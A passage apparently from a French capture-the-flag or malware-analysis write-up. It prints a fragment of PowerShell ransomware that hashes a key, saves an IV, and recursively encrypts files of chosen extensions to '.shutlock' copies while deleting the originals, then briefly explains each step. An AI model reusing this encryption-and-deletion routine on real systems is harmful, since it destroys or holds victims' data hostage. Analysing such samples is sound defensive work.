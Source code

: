 ```ps1
$key = $sha256.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($keyContent))
$iv = [System.Security.Cryptography.RijndaelManaged]::Create().IV

# Sauvegarder l'IV dans un fichier
$ivFilePath = "$env:USERPROFILE\Documents\iv"
[System.IO.File]::WriteAllBytes($ivFilePath, $iv)

# Create a new RijndaelManaged object with the specified key
$rijndael = New-Object System.Security.Cryptography.RijndaelManaged
$rijndael.Key = $key
$rijndael.IV = $iv
$rijndael.Mode = [System.Security.Cryptography.CipherMode]::CBC
$rijndael.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7


# Go through each directory
foreach ($dir in $directories) {
    # Go through each file
    Get-ChildItem -Path $dir -Recurse | ForEach-Object {
        # Check the file extension
        if ($extensions -contains $_.Extension) {
            # Generate the new file name
            $newName = $_.FullName -replace $_.Extension, ".shutlock"

            # Read the file contents in bytes
            $contentBytes = [System.IO.File]::ReadAllBytes($_.FullName)

            # Create a new encryptor
            $encryptor = $rijndael.CreateEncryptor()

            # Encrypt the content
            $encryptedBytes = $encryptor.TransformFinalBlock($contentBytes, 0, $contentBytes.Length)

            # Write the encrypted content to a file
            [System.IO.File]::WriteAllBytes($newName, $encryptedBytes)

            # Delete the original file
            Remove-Item $_.FullName
        }
    }
}
```

Grâce aux commentaires, on comprend sans lire le code, a peu près ce qu'il fait:

- Définis les extensions à cibler
- Récupère la clé et la hash via SHA-256
- Créé l'iv et le sauvegarde dans un fichier
- Créé un objet **RijndaelManaged**
- Chiffre les fichiers de manière récursive
